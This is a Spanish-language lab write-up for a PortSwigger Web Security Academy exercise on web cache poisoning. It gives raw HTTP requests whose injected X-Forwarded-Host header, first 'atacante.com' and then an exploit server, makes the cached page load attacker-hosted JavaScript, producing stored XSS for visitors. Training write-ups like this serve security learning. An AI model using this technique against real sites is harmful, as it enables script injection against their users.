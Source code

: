 ```yaml
---
description: >-
  https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header
---
```


# Lab 1: Web cache poisoning with an unkeyed header

Tenemos la siguiente peticion inicial:

```bash
GET / HTTP/2
Host: 0a78005e04586385800458cf00f5005c.web-security-academy.net
Cookie: session=d5rexs2XWUOrHG8Jxhxms8Ojpfg8oeHM
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=0, i

```

Y esto responde:

{% code lineNumbers="true" %}
```html
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 10982

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>Web cache poisoning with an unkeyed header</title>
    </head>
    <body>
        <script type="text/javascript" src="//0a78005e04586385800458cf00f5005c.web-security-academy.net/resources/js/tracking.js"></script>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Web cache poisoning with an unkeyed header</h2>
```
{% endcode %}

Modificamos la peticion adicionando un parametro y una cabecera:

```bash
GET /?cb=1234 HTTP/2
Host: 0a78005e04586385800458cf00f5005c.web-security-academy.net
Cookie: session=d5rexs2XWUOrHG8Jxhxms8Ojpfg8oeHM
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
X-Forwarded-Host: http://atacante.com
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=0, i


```

Y lo anterior respondio asi:

{% code lineNumbers="true" %}
```html
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 21
X-Cache: hit
Content-Length: 10937

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>Web cache poisoning with an unkeyed header</title>
    </head>
    <body>
        <script type="text/javascript" src="//atacante.com/resources/js/tracking.js"></script>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Web cache poisoning with an unkeyed header</h2>
```
{% endcode %}

En la linea 17 se puede apreciar que el dominio agregado en la cabecera `X-Forwarded-Host: http://atacante.com` se esta reflejando dentro de la propiedad src de la etiqueta script.

Tambien otra diferencia importante entre la peticion legitima tenia la siguiente cabecera:

```
X-Cache: miss
```

y la otra peticion tenia esta:

```
X-Cache: hit
```

Por lo anterior modificamos nuestro exploit server:

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Y luego de lo anterior, enviamos la peticion con el dominio de nuestro exploit server:

```bash
GET /?cb=1234 HTTP/2
Host: 0a78005e04586385800458cf00f5005c.web-security-academy.net
Cookie: session=d5rexs2XWUOrHG8Jxhxms8Ojpfg8oeHM
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
X-Forwarded-Host: exploit-0a910058048d63ca804257c6013c0019.exploit-server.net
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=0, i


```

Y la peticion previa responde asi:

{% code lineNumbers="true" %}
```html
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 10984

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>Web cache poisoning with an unkeyed header</title>
    </head>
    <body>
        <script type="text/javascript" src="//exploit-0a910058048d63ca804257c6013c0019.exploit-server.net/resources/js/tracking.js"></script>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Web cache poisoning with an unkeyed header</h2>
```
{% endcode %}

Despues de lo anterior, podemos quitar el parametro y enviar la peticion asi: GET / HTTP/2

De esta manera cuando la victima acceda a la raiz, se le desplegara el XSS:

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>
